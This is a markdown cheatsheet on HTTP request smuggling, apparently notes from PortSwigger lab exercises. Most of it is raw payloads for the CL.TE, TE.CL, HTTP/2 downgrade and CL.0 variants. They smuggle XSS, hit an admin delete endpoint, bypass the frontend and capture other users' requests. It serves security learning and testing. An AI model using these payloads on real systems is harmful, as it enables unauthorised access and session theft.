 ```yaml
---
title: Request Smuggling
description: Request Smuggling cheatsheet
---
```


# Request Smuggling

## Definition

**Request smuggling** is a type of cyber attack that exploits vulnerabilities in the way that web servers and other network components handle incoming requests. This attack involves sending multiple requests to a web server or other network component in a way that is intended to bypass security measures or to **interfere with the normal processing of the requests**. The goal of this attack is to gain unauthorized access to sensitive information or to perform other malicious actions.

## Potential impacts

- Capture request from other users
- Bypass frontend control
- Spread malicious response to users
    - XSS reflected
    - HTTP Redirection to vuln page

## CL.TE

Check if the vuln exists by looking for 404 response :

```
POST / HTTP/1.1
Host: 0a9000ba04ae672ec05a30930069004c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Transfer-Encoding: chunked
Connection: keep-alive

0

GET /404 HTTP/1.1
X-Ignore:
```

Reflected XSS via Smuggling :

```
POST / HTTP/1.1
Host: 0ac100440421efb2c002ce00008700bc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=4 HTTP/1.1
Host: 0ac100440421efb2c002ce00008700bc.web-security-academy.net
User-Agent: M"><script>alert(1)</script>
X-Ignore:
```

To bypass duplicates error problem, the rest of the request will be in the params :

```
POST / HTTP/1.1
Host: 0a4000100459fd34c15c7dfe00be003a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

Exfiltrate data using reflected HTTP params :

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```

## TE.CL

> Use extension HTTP Request Smuggling

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

## HTTP/2 Downgrading

> Create & modify HTTP/2 request using Inspector.
> Shift + Enter to insert new line

Inject HOST based redirection response.

```
POST / HTTP/1.1
Host: 0ae700f90344dd30c0a54a7100b70046.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0a1500d60306ddd9c0be4a1d01ce00ad.exploit-server.net
Content-Length: 15

x=1
```

CRLF in request header / HTTP request splitting, to capture others request (HTTP2 downgrading will add \r\n\r\n at the end of the request) :

```
HTTP2 REQUEST
Foo: toto\r\n
\r\n
GET /x HTTP/1.1\r\n
Host: 0a4600d80454afd4c0f201b000a200a4.web-security-academy.net
```

## CL.0

Find endpoint that is not supposed to handle POST requests like static files.

Send in single connection :

```
POST /resources/images/avatarDefault.svg HTTP/1.1
Host: 0a0600840320f8a1c184ace600510049.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 100

GET /admin HTTP/1.1
Foo: x
```

And another request on `GET /`, and voilà, you bypassed the frontend !

## References

- [PortSwigger - Request Smuggling](https://portswigger.net/web-security/request-smuggling)